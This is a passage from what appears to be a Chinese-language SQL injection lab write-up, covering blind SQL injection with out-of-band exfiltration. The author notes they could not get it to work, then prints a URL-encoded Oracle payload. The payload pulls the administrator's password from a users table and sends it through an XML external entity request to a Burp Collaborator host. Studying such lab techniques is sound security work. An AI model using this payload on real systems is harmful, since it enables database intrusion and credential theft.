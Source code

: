 ![img](assets/%E5%9B%BE%E7%89%87%2078.png) 

## 2.17. **带外数据泄漏的盲SQL注入**

这里就是通过服务器将数据带出，当然这里是配合类似xxe攻击的手段配合带出，同样这里我也并未成功，始终获取不到数据。

这里也是自行测试。

```
payload：'+union+select+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"utf-8"%3f><!doctype+root+[+<!entity+%25+remote+system+"http%3a//'||(select+password+from+users+where+username%3d'administrator')||'bcrx9myq17bpdz9gk83ym0u01r7hv6.burpcollaborator.net/">+%25remote%3b]>'),'/l')+from+dual--
```
